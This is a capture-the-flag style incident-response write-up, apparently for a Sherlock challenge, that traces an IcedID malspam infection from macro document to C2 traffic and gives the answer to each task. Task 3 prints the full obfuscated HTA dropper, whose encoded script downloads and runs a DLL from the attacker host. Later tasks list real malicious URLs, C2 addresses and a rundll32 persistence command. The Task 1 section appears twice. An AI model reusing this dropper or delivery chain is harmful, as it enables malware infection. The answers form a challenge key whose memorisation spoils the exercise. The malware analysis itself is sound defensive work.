







# IcedID_Malware_Family
#### Categories: DFIR <br> Difficulty: Easy

## Sherlock Scenario
To connect to the challenge from pwnbox use the command:
xfreerdp /v:<ipaddress> /u:analyst /p:’123’ /cert:ignore /dynamic-resolution 

Challenge Files: Desktop/ChallengeFile/challenge-files.zip
Password: infected
This challenge prepared by @Bohan Zhang
Sample Source: malware-traffic-analysis

## Solve
After connecting to the Sherlock machine, I retrieved `challenge-files.zip`, which contains artifacts from the infected machine.

<br>

### Task 0
#### Question:
What is the sha256 hash for the malspam attachment?

#### Answer:
Using `sha256sum` to compute the hashes of the artifacts. The `file` command indicates that `docs 06.02.2021.doc` is the initial delivery vector of the attack.




Answer: **cc721111b5924cfeb91440ecaccc60ecc30d10fffbdab262f7c0a17027f527d1**

<br>

### Task 1
#### Question:
What is the child process command line when the user enabled the Macro?

#### Answer:
I used `olevba` on `docs 06.02.2021.doc` to inspect the embedded macros. The VBA code executes a shell command: `explorer collectionboxconst.hta`.


Answer: **explorer.exe collectionboxconst.hta**

<br>

### Task 1
#### Question:
What is the child process command line when the user enabled the Macro?

#### Answer:
I used `olevba` on `docs 06.02.2021.doc` to inspect the embedded macros. The VBA code executes a shell command: `explorer collectionboxconst.hta`.


Answer: **explorer.exe collectionboxconst.hta**

<br>

### Task 2
#### Question:
What is the HTML Application file's sha256 hash from previous question?

#### Answer:
The hash of `collectionboxconst.hta` is `b25865183c5cd2c5e550aca8476e592b62ed3e37e6b628f955bbed454fdbb100`.

Answer: **b25865183c5cd2c5e550aca8476e592b62ed3e37e6b628f955bbed454fdbb100**

<br>

### Task 3
#### Question:
Based on the previous question, what is the DLL run method?

#### Answer:
Inspecting the HTML source of `collectionboxconst.hta` reveals that the payload is obfuscated and encoded in Base64 (with reversed string formatting). Reversing and decoding the payload exposes the command used to execute the installer DLL via `rundll32.exe`.
```html
/<html><body><div id='copyCurrencyMemory'>fX17KWUoaGN0YWN9O2Vzb2xjLnRzTHJhdjspMiAsImdwai50c25vQ3hvQm5vaXRjZWxsb2NcXGNpbGJ1cFxcc3Jlc3VcXDpjIihlbGlmb3RldmFzLnRzTHJhdjspeWRvYmVzbm9wc2VyLlJyZWdldG5JZXRhZChldGlydy50c0xyYXY7MSA9IGVweXQudHNMcmF2O25lcG8udHNMcmF2OykibWFlcnRzLmJkb2RhIih0Y2VqYk9YZXZpdGNBIHdlbiA9IHRzTHJhdiByYXZ7eXJ0eykwMDIgPT0gc3V0YXRzLlJyZWdldG5JZXRhZChmaTspKGRuZXMuUnJlZ2V0bklldGFkOyllc2xhZiAsIkNYTWpPb0dUNDJDV2JNNzZzMWN3RD1xJjA5TWtubFF2WkdCQUYyRGRGUlZ5TDEyZ2dWWnU9aGNyYWVzJlQyOTJEb01IbT1yZXN1JmZwNHJWPWRpJnllRFBPWGREUDZJNGhXeDlqaD1xJm5mVWcwczladENhVnk9dUp3Uzl5OWkmSmk4bjJLMT1lZ2FwJm5GdmVJckh5NUZMWjExWFV5RDRnY2JvcTA9ZW1pdCZ2YmZrSXNSbmE9cmVzdT81ZXNvcy9OUElyR2drUDZSQUFIVlZLQ2NlUngwVlZCNlR1dEx6emlOUUovN1lXeGlRQWtPbk9CeDUvVC9hZGRhL21vYy56ZXJ1bGNjbWVzcnVvYy8vOnB0dGgiICwiVEVHIihuZXBvLlJyZWdldG5JZXRhZDspInB0dGhsbXguMmxteHNtIih0Y2VqYk9YZXZpdGNBIHdlbiA9IFJyZWdldG5JZXRhZCByYXY=aGVsbG8fXspdHhlTnhlZG5JeGVkbmkoaGN0YWN9Oyl0Y2VqYk9Wb3BlcihlbGlmZXRlbGVkLnRjdXJ0U0xzZXR5YjsiYXRoLnRzbm9DeG9Cbm9pdGNlbGxvY1xcIiArIHlyb3RjZXJpRHRuZXJydUMudHNub0NlY25lcmVmZVJ0c3VydCA9IHRjZWpiT1ZvcGVye3lydDspInRpbkluaWd1bFAsZ3BqLnRzbm9DeG9Cbm9pdGNlbGxvY1xcY2lsYnVwXFxzcmVzdVxcOmMgMjNsbGRudXIiKG51ci50c25vQ2VjbmVyZWZlUnRzdXJ0OykidGNlamJvbWV0c3lzZWxpZi5nbml0cGlyY3MiKHRjZWpiT1hldml0Y0Egd2VuID0gdGN1cnRTTHNldHliIHJhdjspImxsZWhzLnRwaXJjc3ciKHRjZWpiT1hldml0Y0Egd2VuID0gdHNub0NlY25lcmVmZVJ0c3VydCByYXY=aGVsbG8msscriptcontrol.scriptcontrol</div><div id='vConstBorder'>ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/</div><script language='javascript'>function WLongPtr(altListVba){return(new ActiveXObject(altListVba));}function objButtBool(headerListbox){return(removeConstFunction.getElementById(headerListbox).innerHTML);}function boolOptionClass(){return(objButtBool('vConstBorder'));}function sinBooleanCur(s){var e={}; var i; var b=0; var c; var x; var l=0; var a; var memSetByte=''; var w=String.fromCharCode; var L=s.length;var intBorder = zeroI('tArahc');for(i=0;i<64;i++){e[boolOptionClass()[intBorder](i)]=i;}for(x=0;x<L;x++){c=e[s[intBorder](x)];b=(b<<6)+c;l+=6;while(l>=8){((a=(b>>>(l-=8))&0xff)||(x<(L-2)))&&(memSetByte+=w(a));}}return(memSetByte);};function zeroI(genTempTextbox){return genTempTextbox.split('').reverse().join('');}procDocumentI = window;removeConstFunction = document;procDocumentI.resizeTo(1, 1);procDocumentI.moveTo(-100, -100);var genericBoolean = removeConstFunction.getElementById('copyCurrencyMemory').innerHTML.split("aGVsbG8");var collectRightSingle = zeroI(sinBooleanCur(genericBoolean[0]));var vData = zeroI(sinBooleanCur(genericBoolean[1]));var viewPointerConvert = genericBoolean[2];</script><script language='vbscript'>Function classResponseLocal(copyCurrencyMemory) : Set snglSngTpl = CreateObject(viewPointerConvert) : With snglSngTpl : .language = "jscript" : .timeout = 60000 : .eval(copyCurrencyMemory) : End With : End Function</script><script language='vbscript'>Call classResponseLocal(collectRightSingle)</script><script language='vbscript'>Call classResponseLocal(vData)</script><script language='javascript'>procDocumentI['close']();</script></body></html>
```


Answer: **"c:\windows\system32\rundll32.exe" c:\users\public\collectionboxconst.jpg,plugininit**

<br>

### Task 4
#### Question:
What is the image file dll installer sha256 hash from previous question?

#### Answer:
The SHA-256 hash of `collectionboxconst.jpg` is `51658887e46c88ed6d5861861a55c989d256a7962fb848fe833096ed6b049441`.

Answer: **51658887e46c88ed6d5861861a55c989d256a7962fb848fe833096ed6b049441**

<br>

### Task 5
#### Question:
What are the IP address and its domain name hosted installer DLL?

#### Answer:
I used Wireshark to inspect `infection-traffic.pcap`. Because the DLL installer was downloaded after the macro opened the HTA file, applying the filter `http.request.method == GET` displays the request fetching the file. Packet number 6 contains the host details.


Answer: **45.142.213.105, coursemcclurez.com**

<br>

### Task 6
#### Question:
What is the full URL for the DLL installer?

#### Answer:
The URL can be extracted directly from the reversed script within the HTA file.


Alternatively, in Wireshark packet 6, combining the Host header and the requested URI path gives the complete URL.

Answer: **http://coursemcclurez.com/adda/t/5xbonokaqixwy7/jqnizzltut6bvv0xrecckvvhaar6pkggripn/sose5?user=anrsikfbv&time=0qobcg4dyux11zlf5yhrievfn&page=1k2n8ij&i9y9swju=yvactz9s0gufn&q=hj9xwh4i6pddxopdey&id=vr4pf&user=mhmod292t&search=uzvgg21lyvrfdd2fabgzvqlnkm90&q=dwc1s67mbwc24tgoojmxc**

<br>

### Task 7
#### Question:
What are the two IP addresses identified as C2 servers?

#### Answer:
Filtering for DNS queries reveals the infrastructure contacts:
- `45.142.213.105` (`coursemcclurez.com`): Staging host delivering the installer DLL disguised as an HTA/image.
- `65.8.218.70` (`aws.amazon.com`): Connectivity test / legitimate cloud service.
- `172.67.169.59` (`supplementik.top`): Host delivering the core payload (`2021-06-02-fake-gzip-file-from-supplementik.top.bin`).
- `185.33.85.35` and `194.5.249.46`: C2 servers associated with multiple beaconing domains.


Answer: **185.33.85.35, 194.5.249.46**

<br>

### Task 8
#### Question:
What are the four C2 domains identified in the PCAP file?

#### Answer:
The four domains resolving to the C2 servers (`185.33.85.35` and `194.5.249.46`) sorted alphabetically are: `arhannexa5.top`, `extrimefigim.top`, `fimlubindu.top`, and `kilodaser4.fit`.

Answer: **arhannexa5.top, extrimefigim.top, fimlubindu.top, kilodaser4.fit**

<br>

### Task 9
#### Question:
After the DLL installer being executed, what are the two domains that were being contacted by the installer DLL?

#### Answer:
The two domains contacted immediately after running the installer DLL are `aws.amazon.com` and `supplementik.top`.

Answer: **aws.amazon.com, supplementik.top**

<br>

### Task 10
#### Question:
The malware generated traffic to an IP address over port 8080 with two SYN requests, what is the IP address?

#### Answer:
Filtering by `tcp.port == 8080` in Wireshark shows the external IP address that received the two SYN packets from the host.

Answer: **38.135.122.194**

<br>

### Task 11
#### Question:
The license.dat file was used to create persistance on the user's machine, what is the dll run method for the persistance?

#### Answer:
The file `2021-06-02-scheduled-task.txt` details a configured scheduled task executing `rundll32.exe` with the argument `C:\Users\user1\AppData\Local\user1\Tetoomdu64.dll",update /i:"ComicFantasy\license.dat`.

Answer: **C:\Users\user1\AppData\Local\user1\Tetoomdu64.dll",update /i:"ComicFantasy\license.dat**

<br>

### Task 12
#### Question:
With OSINT, what is the malware family name used in this PCAP capture?

#### Answer:
Searching the IoCs (such as the C2 domains and the `license.dat` persistence execution pattern) links the campaign directly to the IcedID (BokBot) banking trojan family.

Answer: **icedid**

<br>

### Task 13
#### Question:
Based on Palo Alto Unit 42, what is the APT Group name?

#### Answer:
According to Unit 42 reporting, campaigns distributing IcedID via malspam and password-protected archives/documents during this period are attributed to TA551 (also tracked as Gold Cabin).

Answer: **ta551**

<br>

### Task 14
#### Question:
What is the Mitre Attack code for the initial access in this campaign?

#### Answer:
The attack initiated via malicious email attachments, which corresponds to MITRE ATT&CK technique T1566.001 (Phishing: Spearphishing Attachment).

Answer: **t1566.001**